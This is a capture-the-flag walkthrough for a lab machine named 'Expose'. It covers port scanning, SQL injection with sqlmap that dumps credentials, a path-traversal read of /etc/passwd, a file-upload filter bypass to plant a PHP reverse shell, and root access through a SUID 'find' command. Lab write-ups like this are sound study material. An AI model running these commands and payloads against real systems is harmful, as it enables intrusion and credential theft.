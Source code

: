 To check my VPN connection was working I started with "ping -c4 10.10.116.11". Everything seems to be working fine so let's start.
I ran 
````
sudo nmap -sS -p- 10.10.116.111
````
to get an initial understanding of what ports were open on the target.

````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-07 15:51 EEST
Nmap scan report for 10.10.116.111
Host is up (0.075s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
53/tcp   open  domain
1337/tcp open  waste
1883/tcp open  mqtt

Nmap done: 1 IP address (1 host up) scanned in 39.58 seconds
````


Refined my command a bit
````
nmap -sVC -p21,22,53,1337,1883 10.10.116.111
PORT     STATE SERVICE                 VERSION
21/tcp   open  ftp                     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.10.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 a5:d1:b7:3c:c5:03:aa:34:f1:a6:e3:5f:b7:cd:5b:46 (RSA)
|   256 14:da:96:fc:70:45:71:e7:39:c8:0f:c3:a9:7a:87:b2 (ECDSA)
|_  256 e2:90:b5:0b:ee:f1:a1:9a:77:e1:40:cc:65:ae:66:12 (ED25519)
53/tcp   open  domain                  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.16.1-Ubuntu
1337/tcp open  http                    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: EXPOSED
|_http-server-header: Apache/2.4.41 (Ubuntu)
1883/tcp open  mosquitto version 1.6.9
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     $SYS/broker/load/connections/1min: 1.83
|     $SYS/broker/messages/sent: 13
|     $SYS/broker/heap/current: 50872
|     $SYS/broker/load/publish/sent/1min: 9.14
|     $SYS/broker/publish/bytes/sent: 55
|     $SYS/broker/load/messages/sent/5min: 2.55
|     $SYS/broker/load/sockets/5min: 0.74
|     $SYS/broker/clients/active: 1
|     $SYS/broker/load/bytes/sent/1min: 340.81
|     $SYS/broker/uptime: 682 seconds
|     $SYS/broker/load/bytes/received/15min: 4.57
|     $SYS/broker/clients/maximum: 1
|     $SYS/broker/load/publish/sent/5min: 1.96
|     $SYS/broker/load/bytes/sent/5min: 73.25
|     $SYS/broker/load/messages/received/15min: 0.20
|     $SYS/broker/load/connections/15min: 0.13
|     $SYS/broker/load/bytes/received/5min: 13.55
|     $SYS/broker/store/messages/bytes: 140
|     $SYS/broker/bytes/received: 69
|     $SYS/broker/subscriptions/count: 2
|     $SYS/broker/version: mosquitto version 1.6.9
|     $SYS/broker/store/messages/count: 30
|     $SYS/broker/load/connections/5min: 0.39
|     $SYS/broker/publish/messages/sent: 10
|     $SYS/broker/clients/inactive: 0
|     $SYS/broker/load/bytes/received/1min: 63.04
|     $SYS/broker/load/messages/sent/15min: 0.86
|     $SYS/broker/clients/disconnected: 0
|     $SYS/broker/clients/connected: 1
|     $SYS/broker/load/sockets/1min: 2.51
|     $SYS/broker/load/messages/received/1min: 2.74
|     $SYS/broker/load/sockets/15min: 0.30
|     $SYS/broker/messages/stored: 30
|     $SYS/broker/retained messages/count: 34
|     $SYS/broker/heap/maximum: 51272
|     $SYS/broker/load/publish/sent/15min: 0.66
|     $SYS/broker/clients/total: 1
|     $SYS/broker/bytes/sent: 373
|     $SYS/broker/load/messages/received/5min: 0.59
|     $SYS/broker/load/bytes/sent/15min: 24.72
|     $SYS/broker/load/messages/sent/1min: 11.88
|_    $SYS/broker/messages/received: 3
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.93 seconds
````

So there is FTP, SSH, DNS domain, waste p2p encrypted file sharing software, and MQTT which is a home automation protocol running.
FTP server allows anonymous login without a password so let's start there. There are no files but the welcome message is "220 Welcome to the Expose Web Challenge.".
Went to "http://10.10.116.111:1337" with the browser and got a plank page with "EXPOSED" in it. Let's use ffuf to try to find some directories.
````
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.116.111:1337/FUZZ
````
found "/admin, /admin_101, /javascript, /phpmyadmin & /server-status".

"/admin, /admin_101 & /phpmyadmin" all have login pages but "/admin" states "Is this the right admin portal?". Testing "/admin" login does not really do anything so let's look at the "/admin_101" next.
Used burp to proxy the request to a file for sqlmap to test for injection vulnerabilities. 
"sqlmap -l req --level=4 --risk=2" tells that backend server seems to be "MySQL" 
"sqlmap -l req --dbms=MySQL --dbs" found "[*] expose,[*] information_schema,[*] mysql,[*] performance_schema,[*] phpmyadmin,[*] sys" databases.
"sqlmap -l req --dbms=MySQL -D expose,mysql,phpmyadmin --tables" dumps tables from databases "expose,mysql,phpmyadmin".
I started with expose database. There were "user, config" tables so lets find out columns for "user" table. 
"sqlmap -l req --dbms=MySQL -D expose -T user --columns" found "created,email,id,password" columns so let's dump them!
+-----------------+----+--------------------------------------+
| email           | id | password                             |
+-----------------+----+--------------------------------------+
| hacker@root.thm | 1  | VeryDifficultPassword!!#@#@!#!@#1231 |
+-----------------+----+--------------------------------------+
This grants login to "/admin_101" but there is nothing.

"sqlmap -l req --dbms=MySQL -D expose -T config --dump" gives more interesting output:
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929                    |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+
I tried to crack hash with JohnTheRipper but it didn't work. I used crackstation.com to see if it would work, and it did. The password is "easytohack".
Tried to brute force "http://10.10.116.111:1337/upload-cv00101011/index.php" with z starting usernames as it hints that the username starts with "z" but it didn't work.
"/file1010111/index.php" lets me in with the password "easytohack". Looking at the source code there is a "Hint: Try file or view as GET parameters?". 
It hints towards LFI(local file inclusion). Trying "http://10.10.116.111:1337/file1010111/index.php?file=../../../../../../../../../etc/passwd" spits out the whole passwd file!

In the file is user "zeamkish", trying that on "http://10.10.116.111:1337/upload-cv00101011/index.php" gives upload page. 
The source code tells me that there is a javascript function that only allows "jpg & png" files. Let's try to bypass it with burp.
I will create a rev.php.png file with php reverse shell inside and upload it with burp. I intercept the upload and remove ".png" extension from the reverse shell and it goes through!
The site says "File uploaded successfully! Maybe look in source code to see the path" so again I looked at the source code and found that the file went to "/upload_thm_1001".
I start a listener port the port in the reverse shell and execute our reverse shell by just clicking the file and we got our shell!

I looked at the folder I landed in but there was nothing. Checked home folders of "ubuntu" and "zeamkish". In zeamkish folder was a file named "ssh_creds.txt"!
Let's try them for ssh "ssh zeamkish@10.10.116.111" and we are in as zeamkish.

I uploaded "linpeas.sh" to help with enumeration. There is an uncommon binary with suid bit.
-rwsr-x--- 1 root zeamkish 313K Feb 18  2020 /usr/bin/find

I had a look at gtfobins and found that you can spawn a privileged shell with: "./find . -exec /bin/sh -p \; -quit"
The flag was "/root/flag.txt"
